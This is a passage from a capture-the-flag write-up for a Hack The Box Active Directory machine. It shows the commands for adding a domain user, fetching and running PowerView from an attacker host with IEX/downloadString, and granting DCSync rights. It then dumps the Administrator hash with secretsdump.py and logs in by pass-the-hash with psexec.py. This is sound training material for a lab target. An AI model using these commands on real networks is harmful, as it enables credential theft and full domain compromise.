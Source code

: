 ```powershell
$ net user 'admin' 'password' /add /domain
$ net group 'Exchange Windows Permissions' 'admin' /add /domain
```

<img width="960" alt="Pasted image 20240107150202" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/b3366f4c-dc41-4565-be6a-947a1400e254">

Now, we just need to grant **DcSync** permissions to our user. For **Dacl** abuse, we can refer to [hackerrecipes](https://www.thehacker.recipes/a-d/movement/dacl). Let's proceed to exploit it.

```powershell
# give DcSync write using PowerView
$ IEX(New-Object Net.WebClient).downloadString('http://10.10.16.25:8000/PowerView.ps1')

$ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$ $Cred = New-Object System.Management.Automation.PSCredential('htb\admin', $SecPassword)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity admin -Rights DCSync
```

<img width="955" alt="Pasted image 20240107153113" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/33239c6a-496f-4388-b08c-304dd9ad1163">

### DcSyns using Secretsdump.py

Now, let's perform a **DcSync** attack using **secretsdump.py** from the Impacket toolkit 
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.

```bash
$ secretsdump.py -dc-ip 10.10.10.161 htb.local/admin:password@10.10.10.161
```
`Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

<img width="844" alt="Pasted image 20240107153217" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/550c2a39-694a-4150-b58c-0d785ec6484e">

#### Pass-the-hash

Now, we just need to perform a **Pass-The-Hash** attack to log in to the Administrator account using **PsExec**. 
PsExec is a **light-weight telnet-replacement** that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.

```bash
$ psexec.py htb.local/Administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
``` 

And we own domain Administrator. 

<img width="954" alt="Pasted image 20240107153914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/a954eec3-4383-443e-beab-cb1425ba0ac0">

# Flags

User : 173f....1da636............f8c99d

Root : b2....523934d9..............753aa

# Happy Hacking :)
